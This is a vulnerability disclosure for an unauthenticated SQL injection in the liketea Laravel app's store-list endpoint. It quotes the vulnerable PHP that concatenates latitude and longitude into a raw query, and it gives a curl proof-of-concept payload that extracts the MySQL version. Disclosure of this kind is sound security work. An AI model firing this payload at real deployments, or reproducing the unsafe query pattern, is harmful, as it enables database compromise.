 # [liketea](https://github.com/cameasy/liketea) SQL Injection

### SQL Injection in Geolocation Query [CRITICAL]

#### Description

A critical SQL injection vulnerability exists in the store listing API endpoint that allows unauthenticated attackers to execute arbitrary SQL commands. User-supplied latitude and longitude parameters are directly concatenated into a raw SQL query without sanitization or parameterization.

#### Affected Component

- **File**: `laravel/app/Http/Controllers/Front/StoreController.php`
- **Lines**: 42-46, 73-80
- **Endpoint**: `POST /api/v1/front/store/list`
- **Authentication**: Not Required

#### Vulnerable Code

```php
public function list(Request $request)
{
    $lat = $request->input('lat') ?: '31.182021';
    $lng = $request->input('lng') ?: '121.425562';

    $model = Store::where('is_open', 1)
        ->selectRaw("*, ST_Distance(
            ST_GeomFromText('POINT($lng $lat)'),  // ❌ UNSAFE
            ST_GeomFromText(CONCAT('POINT(', stores.lng, ' ', stores.lat, ')'))
        ) as distance")
        ->orderBy('distance', 'asc')
        ->get();
}
```

#### Proof of Concept

**1. Database Version Extraction**

```bash
curl -X POST http://localhost:8000/api/v1/front/store/list \
  -H "Content-Type: application/json" \
  -d '{"lat":"1","lng":"1'\''))  ,0,0,0,(SELECT version()))#"}'

# Response exposes MySQL version in error message
```
